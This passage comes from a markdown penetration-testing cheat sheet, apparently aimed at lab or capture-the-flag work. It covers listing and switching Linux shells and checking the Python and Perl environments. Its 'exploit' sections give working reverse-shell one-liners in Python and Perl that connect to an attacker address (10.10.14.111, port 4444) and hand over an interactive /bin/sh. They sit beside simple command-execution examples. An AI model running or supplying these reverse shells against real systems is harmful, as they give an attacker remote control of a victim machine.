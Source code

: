 **Available Shells:**
```bash
cat /etc/shells
which bash zsh csh tcsh
```

**Switch Shells:**
```bash
# Switch to bash
/bin/bash

# Switch to zsh
/bin/zsh

# Switch with login environment
su - username
```

### Programming Languages on Linux

#### Python Environment

**Version Detection:**
```bash
python --version
python3 --version
which python python3
```

**Module Availability:**
```bash
python -c "import sys; print(sys.path)"
python3 -c "import pty, subprocess, os; print('Available')"
```

**Common Python Exploits:**
```bash
# Command execution
python -c "import os; os.system('whoami')"

# Reverse shell
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('10.10.14.111',4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"
```

#### Perl Environment

**Availability Check:**
```bash
which perl
perl --version
```

**Perl Exploits:**
```bash
# Command execution
perl -e 'system("whoami")'

# Reverse shell
perl -e 'use Socket;$i="10.10.14.111";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
